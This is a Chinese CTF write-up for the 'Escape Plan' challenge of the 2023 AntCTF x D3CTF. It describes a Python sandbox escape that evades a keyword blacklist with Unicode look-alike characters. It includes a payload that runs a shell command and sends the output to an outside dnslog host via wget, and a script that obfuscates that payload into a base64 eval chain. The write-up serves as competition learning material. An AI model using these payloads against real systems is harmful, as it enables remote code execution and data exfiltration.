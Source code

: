 title: 2023 AntCTF x D3CTF web题部分wp
author: bmth
tags:
  - D3CTF
categories:
  - CTF
date: 2023-05-07 12:18:00
top_img: 'https://img-blog.csdnimg.cn/dd44d92398ab48c6b1569c5cb4bc94a8.png'
cover: 'https://img-blog.csdnimg.cn/dd44d92398ab48c6b1569c5cb4bc94a8.png'
---
![](https://img-blog.csdnimg.cn/dd44d92398ab48c6b1569c5cb4bc94a8.png)

记录一下2023 AntCTF x D3CTF的做题思路，并复现一下没做出来的题

## Escape Plan
题目描述：
>The success for a break out depends on three things.
>- layout: black_char
>- routine: Python tricks
>- help: Run /readflag to get flag, dns tunneling may help you

题目给出了源码
![](https://img-blog.csdnimg.cn/1a10d6dcb9fc4ac48f20758f17af1fd4.png)

可以看到就是一个黑名单的绕过技巧，这里找到文章：[Python 沙箱逃逸的通解探索之路](https://cn-sec.com/archives/1322842.html)
题目环境是python3.8，支持了 Unicode 变量名，那么就可以利用特殊字符来绕过关键字
```
eval == ᵉval
```
并且数字也是可以使用 Unicode 绕的，文章中使用的是：[https://www.fileformat.info/info/unicode/category/Nd/list.htm](https://www.fileformat.info/info/unicode/category/Nd/list.htm)

无回显，使用dnslog外带数据
```
__import__('os').popen('wget `/readflag`.a948sf.dnslog.cn').read()
```
最后参考Tr0y师傅的构造脚本：
```python
u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'

cmd = "X19pbXBvcnRfXygnb3MnKS5wb3Blbignd2dldCBgL3JlYWRmbGFnYC5hOTQ4c2YuZG5zbG9nLmNuJykucmVhZCgp"
exp = "ᵉval(vars(ᵉval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict({}=()))[len([])]))".format(cmd)

exp = exp.translate({ord(str(i)): u[i] for i in range(10)})

print(exp)
```
去掉多余的空格和换行，cmd传入即可
![](https://img-blog.csdnimg.cn/fafe096d7e3a4f02aa7168c7aa0c9925.png)
